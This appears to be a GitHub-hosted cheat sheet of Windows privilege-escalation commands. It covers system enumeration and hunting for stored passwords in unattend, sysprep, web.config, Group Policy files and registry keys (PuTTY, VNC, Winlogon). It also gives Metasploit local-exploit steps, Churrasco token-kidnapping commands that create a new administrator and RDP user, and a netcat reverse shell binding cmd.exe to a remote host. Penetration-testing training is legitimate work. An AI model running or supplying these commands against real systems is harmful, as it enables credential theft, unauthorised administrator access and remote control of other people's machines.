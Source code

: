 #### Information Gathering
- systeminfo ***OS info***
- hostname ***host info***
- net users ***users info***
- net user <user_name>
- ipconfig /all ***network interfaces and routing table.***
- route print
- arp -A
- netstat -ano ***network connections and the firewall rules***
- netsh firewall show state
- netsh firewall show state
- netsh firewall show config
- schtasks /query /fo LIST /v ***scheduled tasks, running processes, started services and installed drivers.***
- tasklist /SVC
- net start

#### Service available form inside
- netstat -ano
----------------------------------------------------------------------------------------------------------------------------------
#### Stored Credentials
***Find passwords in Windows File***
- findstr /si password *.txt
- findstr /si password *.xml
- findstr /si password *.ini
- findstr /spin "password" *.*
- C:\> dir /s *pass* == *cred* == *vnc* == *.config*
- C:\> dir /b /s unattend.xml
- C:\> dir /b /s web.config
- C:\> dir /b /s sysprep.inf
- C:\> dir /b /s sysprep.xml
- C:\> dir /b /s *pass*
- C:\> dir /b /s vnc.ini

***password stored in windows files***
- C:\sysprep.inf
- C:\sysprep\sysprep.xml
- C:\unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
- C:\inetpub\wwwroot\web.config
- dir c:\*vnc.ini /s /b
- dir c:\*ultravnc.ini /s /b 
- dir c:\ /s /b | findstr /si *vnc.ini
- *Group Policy Preferences* The Groups.xml file contains the password is cached locally.
```
C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
\\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
```
- Other policy preference files
```
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```
***In Registry***
- ***Putty*** : reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
- ***SNMP Paramters*** : reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
- ***Windows autologin*** : reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
- ***VNC*** : reg query "HKCU\Software\ORL\WinVNC3\Password"
- ***Search for password in registry*** : reg query HKLM /f password /t REG_SZ /s ***OR*** reg query HKCU /f password /t REG_SZ /s
----------------------------------------------------------------------------------------------------------------------------------
#### With meterpreter
- use post/multi/recon/local_exploit_suggester
- set session ?
- run

- example: use exploit/windows/local/ms10_015_kitrap0d
- options
- run
----------------------------------------------------------------------------------------------------------------------------------
#### Churrasco Use Local Privilages Escalation via Token Kidnapping
- churrasco.bin "net user user_login user_password /add && net localgroup Administrators user_login /add"

###### Add user to Remote Desktop Users
- churrasco "NET LOCALGROUP "Remote Desktop Users" user_login /ADD"

###### Reverse shell via Admin and currasco  (need nc.exe)
churrasco.exe “nc.exe ip port -e cmd.exe”
- ***Churrasco*** https://www.exploit-db.com/exploits/6705
----------------------------------------------------------------------------------------------------------------------------------
#### Usefull scrips

- ***Windows Exploit Suggester*** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- ***JustAnotherWindowsScript(Enum)*** https://github.com/411Hall/JAWS
- ***Impacket*** https://github.com/SecureAuthCorp/impacket
- ***Nishang*** https://github.com/samratashok/nishang
